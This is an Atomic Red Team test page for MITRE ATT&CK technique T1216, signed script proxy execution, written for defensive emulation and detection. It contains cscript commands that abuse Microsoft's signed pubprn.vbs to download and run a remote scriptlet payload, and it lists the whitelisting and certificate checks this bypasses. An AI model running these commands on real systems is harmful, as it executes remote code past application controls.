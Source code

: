 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)

Detection: Monitor script processes, such as cscript, and command-line parameters for scripts like PubPrn.vbs that may be used to proxy execution of malicious files.

Platforms: Windows

Data Sources: Process monitoring, Process command-line parameters

Defense Bypassed: Application whitelisting, Digital Certificate Validation

Permissions Required: User

Remote Support: No

Contributors: Praetorian</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/payloads/T1216.sct|

#### Run it with `command_prompt`!
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```
<br/>
